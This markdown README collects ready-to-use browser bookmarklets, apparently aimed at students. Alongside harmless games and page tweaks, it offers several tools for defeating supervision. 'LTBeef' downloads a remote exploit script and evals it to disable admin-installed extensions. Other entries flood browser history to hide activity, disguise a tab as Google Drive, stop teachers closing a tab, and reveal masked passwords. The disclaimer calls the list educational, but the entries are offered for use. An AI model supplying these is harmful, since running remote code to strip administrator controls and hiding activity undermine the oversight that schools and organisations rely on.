 # Bookmarklet Collection
### I do not condone any illegal/immoral use of these bookmarklets, these are listed strictly for educational purposes!

> ## Edit+
#### Edit+ is a toggleable way to edit any text on the page that the bookmarklet is used on, this is client side and does not cause damage to the site, will reset or reload.
`javascript:if(document.body.contentEditable != 'true')void(document.body.contentEditable = 'true');else void(document.body.contentEditable = 'false');`


> ## Calculator
#### Calculator is a popup box that can solve any simple math equation on any page you choose!
`javascript:eval('function calc(){_o=prompt(_t,_z);if(_o!=\'\'&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())_z=eval(_o);}');_t='JAVASCRIPTER.NET Calculator - Input the expression to be calculated:';_z='';calc();while(_o!=''&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())calc()`


> ## History Flooder
#### Have something to hide? Use this bookmarklet to spam your history with your input of websites!
`javascript:var num=prompt("History flood amount: "); done = false; x = window.location.href; for (var i=1; i<=num; i++) {history.pushState(0, 0, i==num?x:i.toString()); if(i==num){done=true}}if(done===true){alert("History flood successful! "+window.location.href+" now appears in your history "+num+(num==1?" time.":" times."))}`


> ## X-Ray Googles
#### This lets you edit the raw HTMl of a page (Client-Sided)
`javascript:(function () {var script=document.createElement('script');script.src='https://x-ray-goggles.mouse.org/webxray.js';script.className='webxray';script.setAttribute('data-lang','en-US');script.setAttribute('data-baseuri','https://x-ray-goggles.mouse.org');document.body.appendChild(script);}())`


> ## Portable Minecraft
#### Play a mock minecraft on any webpage! Recovered by luphoria.
`javascript:(function(){window.mcbmRootURI='https://luphoria.com/MCanywhere/';window.mcbmScriptURI='mcbm.min.js';window.mcbmLang='eng';var s,ss=window.mcbmRootURI+'js/mcbm-load.min.js';s=document.createElement('script');s.src=ss;document.body.appendChild(s);})();`


> ## Portable Snake Game
#### Game window appears on your page that you can play snake on.

`javascript:Q=32;m=b=Q*Q;a=[P=l=u=d=p=S=w=0];u=8;f=(h=j=t=(b+Q)/2)-1;(B=(D=document).body).appendChild(x=D.createElement("p"));(X=x.style).position="fixed";X.left=X.top=0;X.background="#FFF%22;x.innerHTML=%22%3Cp%3E%3C/p%3E%3Ccanvas%3E%22;v=(s=x.childNodes)[0];(s=s[1]).width=s.height=5*Q;c=s.getContext(%222d%22);%20onkeydown=onblur=F=function(e,g){g?a[f]?(w+=m,f=Math.random(l+=8)*(R=Q-2)*R|(u=0),F(f+=Q+1+2*(f/R|0),g)):F(f):0%3Ee?(l?--l:(y=t,t=a[t]-2,F(y)),S+=(w*=0.8)/4,m=999/(u++%20+10),a[h+=[-1,-Q,1,Q][d=p]]?B.removeChild(x,alert(%22Game%20Over!\nThe%20game%20window%20will%20now%20be%20closed.\n\nMade%20by%203kh0%22)):(F(h),F(e,j=h),v.innerHTML=P?(setTimeout(F,50,e,0),S|0):%22Press%20P%20to%20play!%20Made%20by%203kh0%22)):-e?(y=(a[e]=e%3CQ|e%3E=Q*Q-Q|!(e%Q)|e%Q==Q-1|2*(e==h))+(e==f),e==h&&(a[j]=2+h),c.fillStyle=%22hsl(%22+99*!a[e]+%22,%22+2*m+%22%,%22+50*y+%22%)%22,c.fillRect(e%Q*5,5*(e/Q|0),5,5)):isNaN(y=e.keyCode-37)|43==y?(P=y&&!P)&&F(-1):%20p=!P|y&-4|!(y^2^d)?p:y;return!1};for(;--b;F(b));void%20F(-1);`

> ## Enter The Matrix
#### Do you choose the red or the blue pill?

`javascript:(function(){var%20wn=window,w,h,o={},m,dc,b,c='ABCDEFGHIJKLM1234567890nopqrstuvwxyz',y=setInterval,z=clearInterval,t=1;function%20x(){dc=document;b=dc.body;b.innerHTML='';bs=b.style;w=wn.innerWidth;h=wn.innerHeight;bs.backgroundColor='black';bs.overflow='hidden';m=y(n,25);dc.addEventListener('keydown',function(e){if(e.keyCode==83){if(t)z(m);else%20m=y(n,25);t=!t}},0)}function%20g(i){return%20dc.getElementById(i)}function%20r(d,m){return%20Math.floor(Math.random()*d)+m}function%20a(i){var%20d=g(i),ds=d.style,t=parseInt(ds.top),k=o[i];if(t<h){ds.top=(t+10)+'px'}else{z(k);b.removeChild(d);delete%20k}}function%20n(){var%20d=dc.createElement('div'),dt=new%20Date(),i='m_'+dt.getTime(),ds=d.style,v=ds.visibility,j=0,u=[],l=r(21,4),q=c.length,p;d.id=i;ds.width='5px';ds.opacity=r(.3,.7);ds.fontSize=r(8,8)+'px';ds.lineHeight='8px';ds.color='green';ds.position='absolute';ds.left=r(w,0)+'px';v='hidden';while(j<l){p=r(q,0);u[j]=c.substring(p,p+1);j++}d.innerHTML=u.join("\n");b.appendChild(d);ds.top=-d.offsetHeight+'px';v='visible';o[i]=y(function(){a(i)},r(20,40))}x();})()`


> ## LTBeef
#### Force disable admin installed extensions (go to chrome webstore)

`javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});`

> ## Google Drive Tab Disguise
#### Changes icon and title of tab to Google Drives

`javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://ssl.gstatic.com/docs/doclist/images/infinite_arrow_favicon_5.ico';document.title = 'My Drive - Google Drive';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);`

> ## Secure Page
#### This bookmarklet makes your tab need extra confirmation to close (teachers cant force close)

`javascript:window.onbeforeunload = function() { return "Do you want to close"; }; alert("Tab Secured");`

> ## Show Password
#### Makes "********" Passwords show after clicking bookmarklet

`javascript:(function(){ var IN,F;IN=document.getElementsByTagName('input'); for(var i=0;i<IN.length;i++){F=IN[i]; if(F.type.toLowerCase()=='password'){ try{F.type='text'}catch(r){ var n,Fa;n=document.createElement('input'); Fa=F.attributes;for(var ii=0;ii<Fa.length;ii++){ var k,knn,knv;k=Fa[ii];knn=k.nodeName;knv=k.nodeValue; if(knn.toLowerCase()!='type'){ if(knn!='height'&&knn!='width'&!!knv)n[knn]=knv}}; F.parentNode.replaceChild(n,F)}}}})()`

> ## Blooket Multitool
#### This is a semi-functional blooket multitool

`Way too big to put here but its at https://zeltux.dev/blooket.js`
